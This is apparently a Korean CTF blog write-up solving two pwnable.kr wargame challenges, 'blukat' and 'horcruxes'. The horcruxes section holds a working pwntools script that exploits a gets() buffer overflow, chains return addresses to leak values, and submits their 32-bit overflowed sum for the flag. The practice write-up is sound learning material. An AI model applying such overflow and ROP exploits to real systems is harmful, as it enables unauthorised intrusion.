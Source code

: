 ```yaml
---
layout: post
title: ! '[pwnable.kr] blukat & horcruxes'
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Wargame
---
```


[pwnable.kr](http://pwnable.kr)에서 `Toddler's Bottle` 올클했는데 두 문제 더나왔다.

그래서 광복절에 동방에 아무도 없길래 심심해서 풀었당.

코드 이쁘게 짜기 연습도 할겸 잼있었당.

<!--more-->

# blukat

> Sometimes, pwnable is strange...
>
> hint: if this challenge is hard, you are a skilled player.
>
> 
>
> ssh blukat@pwnable.kr -p2222 (pw: guest)

ssh 연결 문제다. 접속해 보자.

> blukat@ubuntu:~$ ls -la
>
> total 28
>
> drwxr-x---  2 root blukat     4096 Aug  8 06:44 .
>
> drwxr-xr-x 92 root root       4096 Aug 12 10:28 ..
>
> -r-xr-sr-x  1 root blukat_pwn 9144 Aug  8 06:44 blukat
>
> -rw-r--r--  1 root root        645 Aug  8 06:43 blukat.c
>
> -rw-r-----  1 root blukat_pwn   33 Jan  6  2017 password
>
> blukat@ubuntu:~$ id
>
> uid=1104(blukat) gid=1104(blukat) groups=1104(blukat),1105(blukat_pwn)

?

> blukat@ubuntu:~$ cat password
>
> cat: password: Permission denied
>
> blukat@ubuntu:~$ ./blukat 
>
> guess the password!
>
> cat: password: Permission denied
>
> congrats! here is your flag: 

......................?????

이게뭐야

# horcruxes

> Voldemort concealed his splitted soul inside 7 horcruxes.
>
> Find all horcruxes, and ROP it!
>
> author: jiwon choi
>
> 
>
> ssh horcruxes@pwnable.kr -p2222 (pw:guest)

이것도 ssh 연결 문제.

> horcruxes@ubuntu:~$ cat readme 
>
> connect to port 9032 (nc 0 9032). the 'horcruxes' binary will be executed under horcruxes_pwn 
>
> privilege.
>
> rop it to read the flag.

 인 척 하는 nc 문제 (?)

 랜덤으로 a~g 값 만들어주고 그 값을 전부 더한 값이 내가 입력한 값이랑 같으면 클리어.

 근데 문제는 그 값을 알게해주는 함수들은 그 값을 입력해야 된다.

 예를들어 a 값을 알고싶으면 a를 입력해야 하는 형식. 뭐야이게

![]({{ site.baseurl }}/images/KRater/2018-08-15-blukat-horcruxes/pic01.PNG) 

 ropme 함수에 gets 함수 있따. 야호 BOF 가능

 BOF 해서 함수들 순회하면서 값 유출하고 sum 입력해주면 짜자잔 되겠당

![]({{ site.baseurl }}/images/KRater/2018-08-15-blukat-horcruxes/pic02.PNG) 

근데 `ropme` 함수에 `0x00` 바이트 있다 헝헝 ㅠㅠ

![]({{ site.baseurl }}/images/KRater/2018-08-15-blukat-horcruxes/pic03.PNG) 

그니까 `main` 함수에서 콜하는 부분으로 뛰면 되겠네 ㅎ

```python
from pwn import *
from ctypes import *

HOST = "localhost"
PORT = 9032
r = remote(HOST, PORT)
horcruxes = [0x0809FE4B, 0x0809FE6A, 0x0809FE89, 0x0809FEA8, 0x0809FEC7, 0x0809FEE6, 0x0809FF05]
main_call_ropme = 0x0809fffc

def main () :
	exp = 0
	r.recvuntil("Menu:")
	r.sendline('1')
	r.recvuntil(" : ")
	payload = "A"*116
	payload += "B"*4 # SFP
	for i in range (7) :
		payload += p32(horcruxes[i])
	payload += p32(main_call_ropme)
	r.sendline(payload)

	for i in range (7) :
		r.recvuntil("+")
		tmp = r.recvuntil(")", drop=True)
		log.info(tmp)
		exp += int(tmp)
	log.info("exp : " + str(c_int(exp).value))
	r.recvuntil("Menu:")
	r.sendline("1")
	r.recvuntil(" : ")
	r.sendline(str(c_int(exp).value))
	r.interactive()

if __name__ == '__main__' :
	main()
```

근데 더할때 `4 bytes integer overflow` 일어나잖아...?

파이썬이 이상하게 더해줄탠데...

그래서 `ctypes` 모듈 써 봤다.

요로코롬 하면 자동으로 `overflow`까지 생각해서 계산해준다.

> horcruxes@ubuntu:/tmp/---$ python exploit.py 
>
> [+] Opening connection to localhost on port 9032: Done
>
> [*] 154861037
>
> [*] 479571890
>
> [*] 862848645
>
> [*] 248990705
>
> [*] 1911103787
>
> [*] 284725373
>
> [*] 197217576
>
> [*] exp : -155648283
>
> [*] Switching to interactive mode
>
> ---flag is here---

끗~